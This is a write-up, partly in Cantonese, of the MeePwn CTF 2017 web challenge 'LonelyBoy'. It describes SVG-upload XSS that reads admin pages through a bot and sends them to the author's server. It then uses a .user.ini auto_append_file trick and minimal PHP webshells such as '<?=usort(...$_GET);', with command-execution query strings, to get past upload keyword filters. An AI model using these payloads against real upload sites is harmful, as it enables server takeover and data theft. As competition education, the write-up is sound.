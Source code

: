 # MeePwn CTF 2017: LonelyBoy

### (web, 1000 points, 1 team solved)

說明
>I saw the website of a lonely boy out there, it looks like he wants to be cheered up, can you help him?
>
> Flag is in /
>
> Remote: 188.166.242.140

奇怪的通知

📢 Notice: We use phantomjs to evaluate your submitted url

孤獨的提示

💡 Hint 1: Wow .SaVaGe , nobody care about him... please come to tsu home, tsu want to make friend at his HOME!

💡 Hint 2: POST is so complex, better go to his HOME with GET

💡 Hint 3: Hey FRIEND! Information Gathering is important :)

💡 Hint 4: Well, its not a common php, another php :D

💡 Hint 5: u.....sort! sort! sort!, splat! splat! splat!.... some animals voice around his house..., try to rce :D


## 題解
呢題 No one plays. 真係夠晒 Lonely. 一開始個 Flag is in / 真係好誤導. 整到咁多 part 又係老點.

求其註冊登入之後有個位可以 upload 相. 

話說 upload 個扮係 jpg 既 txt 係會 block 9 你. 見到可以 upload svg 明眼人一睇就知係玩 XSS. 個 svg 你想寫乜都得.

隊個 Cookie stealer 冇反應. 之後我去 IRC 問個作者你個 bot 係咪壞輪左. 佢話好正常你再試下. 可能係個 bot 唔認 svg 係網頁.

因為佢有 check 個 file 是咪 from 佢個 website. 試下試下發現吊佢剩係 check 個 url 有冇 ht​tp://188.166.242.140/

即係 ht​tp://example.com/x.php?ht​tp://188.166.242.140/ 佢係識讀.

之後響自己個網度放個 iframe 連返去佢個網個 svg 又得. 

點解要搞咁多野連返去佢個網係因為有 CORS. 個 svg 響佢個網度就可以為所欲為 好似係

之後用個 xhr 讀下 admin login 狀態下 d page. 點知讀唔到. 唔知咩事. 

之後搞一大輪試下試下發現佢個 bot 成日 timeout. 所以我加個 loop 讀下我個網睇下佢幾時先 timeout.出事. 

點知佢唔識 timeout. 炸我 server 炸左半粒鐘. 我自己又硬膠膠唔 timeout. 佢又唔 timeout. 大家攬炒. 

我之後去 IRC 同佢話你個 bot 炸鳩緊我. 佢之後話 reset 左. 我再睇 log 發現佢係重 send 緊 request. 說好的 reset 呢.

大家睇到呢度係咪開始唔想睇呢. 之後我真係讀到 admin 狀態下既 files.php 啦. 點知條友仔半個 file 都冇 upload. 

之後睇返佢堆孤獨的提示. 佢果陣出到第一個提示 話咩 go HOME. 係咪去 /home 啊頂你你又話 Flag is in / 想點. 

之後發現個 homepage 叫 home.php. 讀下佢個 home.php 發現佢多左個咩 email_address_of_tsu_friend.

哇唔通你想玩 phantomjs 幫你 sql injection 定 mail(). 大佬真係隔山打牛. 

之後叫個 bot run ht​tp://188.166.242.140/home.php?email_address_of_tsu_friend=真email. 點知真係收唔到 email.

我去 IRC 問下條友 問佢你個 mail function 係咪壞能左. 佢叫我打返註冊用個 email 就算喎. 

頂你正常入個 username 算啦入乜鬼 email. 搞一大輪唔知點解變左做 friend. 之後多左個 upload box.

今次個 upload box 據聞可以 upload 任何野. 咁第一時間梗係 upload php. 吊啦 block 9 我. 咁 php 唔得試下 pht. 又唔能得. 

咁試下 phd. 得左. 但係 phd 係冇用既 (好似係). 因為 run 唔 lun 到. 

咁試下 upload .htaccess 加個 MIME type. 又 block 9 ht. 乜能都做唔到. 

之後打多過 20 個字又鬧我. 試試下打左個 Exec 響入面又話 Malicious! 吊啦. 

之後 **唔知點樣試到** .user.ini 可以加 d setting. 加個 auto_append_file=z 拿佢限 20 個字 auto_append_file=.svg 21個字. 吊佢.

因為你有 setting 冇 php 都冇能用. 然後 **唔知點解搵到** index.php 竟然係用 php. 

正常人應該用 index.htm 或者 index.html 啦. 又唔係要動用咩 server-side script. 

咁你 upload 多個 z 入面係 `<?=phpinfo();` 就有野睇.

---
呢段開始先仆街. 

佢個 upload 除左 block exec 之外重 block 好能多野. 咩 eval system passthru. 

試試下 include 冇事. 咁好正路 upload 返個 svg include 佢搞掂.

list 到個 / 入面有個 goodjobnowgetyoursfl4g 咁試下 cat 佢. 冇料到. 即係 directory.

之後想 list /goodjobnowgetyoursfl4g 果下先仆街. 無端端話 Malicious!

個作者響 IRC 話 block 漏 include 同 require. 吊你想點啊. 佢話之後會再出提示點玩喎. 你玩晒啦.

結果 on99 咁睇個 php manual 搵下 d 短名 function. 有個叫 dl 都唔知點能用. 

之後發現佢冇 block popen. 不過玩 popen 又要 reverse shell 好能煩.

---
搞下搞下之後佢出第五個提示話咩 usort splat. 吊又係用 d 濕鳩 callback. 咁用 usort 囉. 

至於 splat 係乜野? 佢係將個 array 爆做 argument 既奇怪 operator. 即係 python 入面 **kwargs d friend. 

因為你想用 querystring 塞野既話 你要用 $_GET[0], $_GET[x] 之類. 想塞兩舊就已經用好多字.

用 splat 就係 ...$_GET, 塞幾多都得. 最後個 file 係 `<?=usort(...$_GET);`

正常 usort 係會將 第一個 argument ($_GET[0]) 個 array 做 sorting. 如果有 callback 就係第 k 同 k+1 個 element 放去個 callback 度:

`usort(...$_GET)` ==> `$_GET[1]($_GET[0][0],$_GET[0][1]); $_GET[1]($_GET[0][1],$_GET[0][2]);` etc.

但係唔知做乜春佢個 server 係 `$_GET[1]($_GET[0][1],$_GET[0][0])`

結果要咁能樣 
> ht​tp://188.166.242.140/upload/whatever/index.php?0[0]=0&0[1]=diu&1=print_r

先識 `print_r("diu",0)` (print_r 第二個 argument false 就會直接 echo 出黎. true 就儲去個 variable 度)

之後睇下 system 果堆 function. system 第二個 argument 要係個 variable reference 指返個 output. 

我響我個 server run `system("ls",0)` 係 run 唔能到既. 但係有朋友發現佢果度唔知點解 run 到.

之後就 
> ht​tp://188.166.242.140/upload/whatever/index.php?0[0]=0&0[1]=cat%20/goodjobnowgetyoursfl4g/Yes_This_Is_What_You_Are_Looking_FoR_FlagGgGg&1=system

搞一大堆咁能辛苦終於解到.

## 後記
佢個 usort 簡直係老點. 不知所謂. run `system("ls",0)` 就好似 run `0=1` 咁搞笑. usort 個 array 又好似調轉左咁.

做完之後發現有個 function 叫 copy 冇 block 到. 咁 `<?=copy(...$_GET);` 少佢一隻字添. 做多好多野添. 

例如 ht​tp://188.166.242.140/upload/whatever/index.php?0[0]=0.svg&0[1]=../yaoi.php

就會出 [http://188.166.242.140/upload/yaoi.php](http://archive.is/5qJGy)

---
# English version
In short it is "XSS read page + ??? + Webshell" 

<ol>
<li>XSS read page</li>
  <ul>
  <li>upload a file with javascript on the victim server to bypass CORS</li>
    <ul>
    <li>svg is perfect because other image format are checked</li>
    <li>the script includes logics to read home.php and send back to your server</li>
    <li>add some loops to read some pages to prevent the bot from timing out</li>
    </ul>
  <li>upload a page on your own server with <iframe src=that_svg_file> (instead of using <img> or directly query the svg file due to the bot issue)</li>
  <li>ask the bot to query the page with ?ht​tp://188.166.242.140/ at the end to bypass checking</li>
  </ul>

<li>???</li>
  <ul>
  <li>when you got the content of home.php, you found weird form with parameter email_address_of_tsu_friend</li>
  <li>ask the bot to query ht​tp://188.166.242.140/home.php?email_address_of_tsu_friend=your_email_account</li>
  <li>why you need to fill in your email account in the system? it is a feature maybe. </li>
  </ul>

<li>Webshell</li>
  <ul>
  <li>upload .user.ini with auto_append_file=whatever or auto_prepend_file=whatever. make whatever shorter.</li>
  <li>upload whatever with phpcode like &lt;?=phpinfo();, &lt;?=$_GET[0]('ls /');, &lt;?=usort(...$_GET); or &lt;?=copy(...$_GET);</li>
  <li>go to index.php and add some querystring according to your payload</li>
    <ul>
    <li>give ?0=system to &lt;?=$_GET[0]('ls /');</li>
    <li>give ?0[0]=0&0[1]=ls%20/&1=system to &lt;?=usort(...$_GET);</li>
    </ul>
  <li>do whatever you like</li>
  </ul>
 </ol>
